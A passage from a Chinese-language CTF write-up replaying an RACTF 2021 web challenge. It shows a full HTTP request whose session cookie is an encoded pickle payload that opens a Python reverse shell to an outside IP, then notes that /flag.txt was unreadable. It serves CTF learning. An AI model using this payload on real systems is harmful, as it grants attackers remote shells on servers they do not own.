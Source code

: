 

一个很大的坑点就是，这个session要在linux下生成，windows生成的不对，坑了我好久呜呜呜。

然后直接请求就可以反弹shell了：

```http
GET / HTTP/1.1
Host: 193.57.159.27:49078
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://193.57.159.27:49078
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://193.57.159.27:49078/new/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie:sessionid=gANjcG9zaXgKc3lzdGVtCnEAWNIAAABweXRob24gLWMgJ2ltcG9ydCBzb2NrZXQsc3VicHJvY2VzcztzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMTguMzEuMTY4LjE5OCIsMzk4NzYpKTtzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSxzdGRpbj1zLmZpbGVubygpLHN0ZG91dD1zLmZpbGVubygpLHN0ZGVycj1zLmZpbGVubygpKSdxAYVxAlJxAy4:1mGJbx:xsuOk_HfrnmF1eTgZpadluH3SIYC7YLhKioVt3YBQLA
Connection: close


```



拿到shell发现`/flag.txt`没权限读：

![image-20210818195722377](RACTF-2021-Web复现.assets/image-20210818195722377.png)
